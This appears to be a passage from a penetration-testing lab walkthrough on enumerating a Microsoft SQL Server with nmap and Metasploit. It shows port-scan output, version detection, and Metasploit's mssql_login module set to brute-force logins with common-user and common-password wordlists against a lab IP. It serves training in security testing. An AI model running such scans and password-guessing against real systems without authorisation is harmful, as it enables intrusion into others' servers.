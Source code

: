 <details><summary>Reveal Flag: 🚩</summary></details>


## Lab 4 - metasploit

>  🔬 [Recon: MSSQL: Metasploit](https://attackdefense.com/challengedetails?cid=2314)
>
>  - Target IP: `10.4.23.176`
>  - `Windows MSSQL` server enumeration with `metasploit`

```bash
nmap 10.4.23.176
    53/tcp   open  domain
    88/tcp   open  kerberos-sec
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    389/tcp  open  ldap
    445/tcp  open  microsoft-ds
    464/tcp  open  kpasswd5
    593/tcp  open  http-rpc-epmap
    636/tcp  open  ldapssl
    1433/tcp open  ms-sql-s
    3268/tcp open  globalcatLDAP
    3269/tcp open  globalcatLDAPssl
    3389/tcp open  ms-wbt-server
```

```bash
nmap --script ms-sql-info -p1433 10.4.23.176

Host script results:
| ms-sql-info: 
|   10.4.23.176:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
```

> 📌 Server is `Microsoft SQL Server 2019`

- User Metasploit to enumerate MSSQL configuration, logins, users and execute a command on the target machine.

```bash
msfconsole -q
```

```bash
use auxiliary/scanner/mssql/mssql_login
set RHOSTS 10.4.23.176
set USER_FILE /root/Desktop/wordlist/common_users.txt
set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt
set VERBOSE false
exploit
```

